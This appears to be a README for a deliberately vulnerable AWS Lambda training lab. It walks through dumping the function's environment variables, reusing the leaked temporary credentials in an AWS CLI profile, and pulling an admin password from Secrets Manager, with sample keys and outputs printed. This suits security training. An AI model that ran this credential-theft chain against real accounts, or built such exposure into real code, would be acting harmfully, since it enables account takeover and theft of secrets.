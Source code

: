# Bad Lambda

Lambda function with API gateway and admin password in Secrets Manager
* Returns environment variables of container executing Lambda
* Includes AWS security token details which can be used to assume Lambda role
* The credentials can then be used to retrieve the admin password from Secrets Manager

# WARNING
* Designed for security training purposes
* Do not use on a production account
* Do not use if you are using AWS Secrets Manager in the account
* Could lead to AWS account takeover with excessive Lambda role policy permissions

## DEV environment

to deploy:

* use Terraform v11.7 to deploy:

```
terraform init
terraform workspace new dev
terraform plan
terraform apply
```

## USAGE

Browse to the API Gateway endpoint of the bad-lambda-dev function, provided as a Terraform output, e.g.:
https://r2pjhsdqp2.execute-api.eu-west-1.amazonaws.com/dev/

The environment variables of the Lambda function will be returned:
```
AWS_LAMBDA_FUNCTION_VERSION=$LATEST
AWS_SESSION_TOKEN=FQoGZXIvYXdzEJv//////////wEaDGfc5KqNddb+xhFF7iLnAaCBanmzm8/PykwEKmyW0wVGklVYWvwXIMEIkwYApmscKwMlfDEeMtq1fRlMT6fCgbC8lw36p9dTPn8awx2frzDgNBUUDB/XMth7J8CGz+k8qcRLjwZsihMpqHv2ikozqNP+JptvnPCD//FjBF1aomgkntLbY9qeTigvTTMVDjBjoat3zZyJGKylzOnkCZ/OBIr4wuU4071f/Rud+1szy4eKocJZavdnBhfFfknhakezCrJgVeL8X+JMnnFsEi6zhkn172GOibCbO07SSty7mY6HRb0gzB1w+8wGGroEthoj2NXB/aYYHijQ56veBQ==
AWS_LAMBDA_LOG_GROUP_NAME=/aws/lambda/bad-lambda-dev
LAMBDA_TASK_ROOT=/var/task
LD_LIBRARY_PATH=/var/lang/lib:/lib64:/usr/lib64:/var/runtime:/var/runtime/lib:/var/task:/var/task/lib
AWS_LAMBDA_LOG_STREAM_NAME=2018/10/20/[$LATEST]214ec27edfb64248ac59a9865c03db62
AWS_EXECUTION_ENV=AWS_Lambda_python3.6
AWS_XRAY_DAEMON_ADDRESS=169.254.79.2:2000
AWS_LAMBDA_FUNCTION_NAME=bad-lambda-dev
PATH=/var/lang/bin:/usr/local/bin:/usr/bin/:/bin
AWS_DEFAULT_REGION=eu-west-1
PWD=/var/task
AWS_SECRET_ACCESS_KEY=xohK8M33/0mDQhW5wWHcNY7QShLsvbjIhhEXrUb+
LAMBDA_RUNTIME_DIR=/var/runtime
LANG=en_US.UTF-8
AWS_REGION=eu-west-1
TZ=:UTC
AWS_ACCESS_KEY_ID=ASIA2L5BHF3A7UTREF4P
SHLVL=1
_AWS_XRAY_DAEMON_ADDRESS=169.254.79.2
_AWS_XRAY_DAEMON_PORT=2000
PYTHONPATH=/var/runtime
_X_AMZN_TRACE_ID=Root=1-5bcb0793-fbe56bdc6615401414db1a74;Parent=234bca345951c93f;Sampled=0
AWS_SECURITY_TOKEN=FQoGZXIvYXdzEJv//////////wEaDGfc5TyNddb+xhFF7iLnAaCBanmzm8/PykwEKmyW0wVGklVYWvwXIMEIkwYApmscKwMlfDEeMtq1fRlMT6fHyuyC8lw36p9dTPn8awx2frzDgNBUUDB/XMth7J8CGz+k8qcRLjwZsihMpqHv2ikozqNP+JptvnPCD//FjBF1aomgkntLbY9qeTigvTTMVDjBjoat3zZyJGKylzOnkCZ/YTWr4wuU4071f/Rud+1szy4eKocJZavdnBhfFfknhakezCrJgVeR9X+JMnnFsEi6zhkn172GOibCbO07SSty7mY6HRb0gzB1w+8wGGroEthoj2NXB/aYYHijQ56veBQ==
AWS_XRAY_CONTEXT_MISSING=LOG_ERROR
_HANDLER=printenv.lambda_handler
AWS_LAMBDA_FUNCTION_MEMORY_SIZE=128
_=/usr/bin/printenv
```

create a new profile in your ~/.aws/credentials file, using those values:
```
[badlambda]
aws_access_key_id = ASIA2L5BHF3A7UTREF4P
aws_secret_access_key = xohK8M33/0mDQhW5wWHcNY7QWFilxLSjIhhEXrUb+
aws_session_token = FQoGZXIvYXdzEJv//////////wEaDGfc5TyNddb+xhFF7iLnAaCBanmzm8/PykwEKmyW0wVGklVYWvwXIMEIkwYApmscKwMlfDEeMtq1fRlMT6fHyuyC8lw36p9dTPn8awx2frzDgNBUUDB/XMth7J8CGz+k8qcRLjwZsihMpqHv2ikozqNP+JptvnPCD//FjBF1aomgkntLbY9qeTigvTTMVDjBjoat3zZyJGKylzOnkCZ/YTWr4wuU4071f/Rud+1szy4eKocJZavdnBhfFfknhakezCrJgVeR9X+JMnnFsEi6zhkn172GOibCbO07SSty7mY6HRb0gzB1w+8wGGroEthoj2NXB/aYYHijQ56veBQ==
```
then use a recent version of the AWS command line interface:
```
$ aws secretsmanager list-secrets --profile badlambda
```
A list of secrets in the eu-west-1 region will be returned:
```
{
    "SecretList": [
        {
            "LastAccessedDate": 1539993600.0, 
            "SecretVersionsToStages": {
                "87AF04AE-B24B-4966-85B1-95C83B7D8717": [
                    "AWSCURRENT"
                ]
            }, 
            "Name": "admin-password-dev", 
            "ARN": "arn:aws:secretsmanager:eu-west-1:YOUR_AWS_ACCOUNT_ID:secret:admin-password-dev-mJstfR", 
            "LastChangedDate": 1540027226.453
        }
    ]
}
```
Copy the secret ARN and paste into the command as below:
```
aws secretsmanager get-secret-value --secret-id "arn:aws:secretsmanager:eu-west-1:YOUR_AWS_ACCOUNT_ID:secret:admin-password-dev-mJstfR" --profile badlambda
```
You will retrieve the secret value of the admin password:
```
{
    "Name": "admin-password-dev", 
    "VersionId": "87AF04AE-B24B-4966-85B1-95C83B7D8717", 
    "SecretString": "cDS41esC&Y7Dudwt4Uvrwo-�w", 
    "VersionStages": [
        "AWSCURRENT"
    ], 
    "CreatedDate": 1540027226.179, 
    "ARN": "arn:aws:secretsmanager:eu-west-1:YOUR_AWS_ACCOUNT_ID:secret:admin-password-dev-mJstfR"
}
```
